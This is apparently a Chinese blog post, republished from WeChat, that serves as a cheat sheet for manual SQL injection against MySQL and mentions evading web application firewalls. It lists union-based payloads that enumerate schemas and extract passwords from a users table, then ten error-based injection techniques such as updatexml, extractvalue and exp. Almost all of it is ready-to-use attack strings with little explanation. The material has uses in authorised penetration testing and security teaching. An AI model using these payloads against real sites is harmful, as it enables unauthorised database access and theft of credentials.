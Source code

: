 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/EpefTBRH0me1t1KHCtK_7A)

虽说目前互联网上已经有很多关于 sql 注入的神器了，但是在这个 WAF 横行的时代，手工注入往往在一些真实环境中会显得尤为重要。本文主要把以前学过的知识做个总结，不会有详细的知识解读，类似于查询手册的形式，便于以后的复习与查阅，文中内容可能会存在错误，望师傅们斧正！

0x01 Mysql 手工注入
---------------

### 1.1 联合注入

```
?id=1' order by 4--+
?id=0' union select 1,2,3,database()--+
?id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=database() --+
?id=0' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_ --+
#group_concat(column_name) 可替换为 unhex(Hex(cast(column_name+as+char)))column_name

?id=0' union select 1,2,3,group_concat(password) from users --+
#group_concat 可替换为 concat_ws(',',id,users,password )

?id=0' union select 1,2,3,password from users limit 0,1--+
```

**1.2 报错注入**

```
1.floor()
select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

2.extractvalue()
select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

3.updatexml()
select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

4.geometrycollection()
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));

5.multipoint()
select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));

6.polygon()
select * from test where id=1 and polygon((select * from(select * from(select user())a)b));

7.multipolygon()
select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));

8.linestring()
select * from test where id=1 and linestring((select * from(select * from(select user())a)b));

9.multilinestring()
select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));

10.exp()
select * from test where id=1 and exp(~(select * from(select user())a));
```
